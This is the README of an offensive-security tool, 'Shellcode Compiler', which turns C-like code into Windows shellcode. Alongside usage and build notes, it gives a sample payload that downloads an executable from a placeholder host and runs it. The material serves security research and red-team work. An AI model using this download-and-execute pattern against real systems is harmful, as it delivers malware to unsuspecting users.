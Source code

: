 # Shellcode Compiler

Shellcode Compiler is a program that compiles C/C++ style code into a small, position-independent and NULL-free shellcode for Windows. It is possible to call any Windows API function in a user-friendly way.

Shellcode Compiler takes as input a source file and it uses it's own compiler to interpret the code and generate an assembly file which is assembled with NASM (http://www.nasm.us/). 

Shellcode compiler was released at DefCamp security conference in Romania, November 2016.

# Command line options
        -h (--help)      : Show this help message
        -v (--verbose)   : Print detailed output
        -t (--test)      : Test (execute) generated shellcode
        -r (--read)      : Read source code file
        -o (--output)    : Output file of the generated binary shellcode
        -a (--assembbly) : Output file of the generated assembly code

# Source code example

        function URLDownloadToFileA("urlmon.dll");
        function WinExec("kernel32.dll");
        function ExitProcess("kernel32.dll");

        URLDownloadToFileA(0,"https://site.com/bk.exe","bk.exe",0,0);
        WinExec("bk.exe",0);
        ExitProcess(0);
        
# Invocation example
        ShellcodeCompiler.exe -r Source.txt -o Shellcode.bin -a Assembly.asm
        
# Limitations
1. It is not possible to use the return value of an API call
2. It is not possible to use pointers or buffers
3. It is not possible to declare variables

# Changelog
1. It uses now Keystone Engine to assemble the shellcode: http://www.keystone-engine.org/

# Keystone compilation
1. Download Keystone Engine source code
2. Download, install and put in PATH cmake and python
3. Open Visual Studio Command Line (32 bits) and go to Keystone source directory
4. Edit nmake-lib.bat file and replace -DLLVM_TARGETS_TO_BUILD="all" with -DLLVM_TARGETS_TO_BUILD="X86"
5. Run mkdir build and cd build commands
6. Run ..\nmake-lib.bat command
7. Copy the resulted lib file from keystone-src\build\llvm\lib\keystone.lib to ShellcodeCompiler\Keystone\keystone.lib

All these limitations will be fixed as soon as possible. However, many other limitations will exist.
This is an Alpha version. Please report any bugs or suggestions.

# Author

Ionut Popescu (@NytroRST)
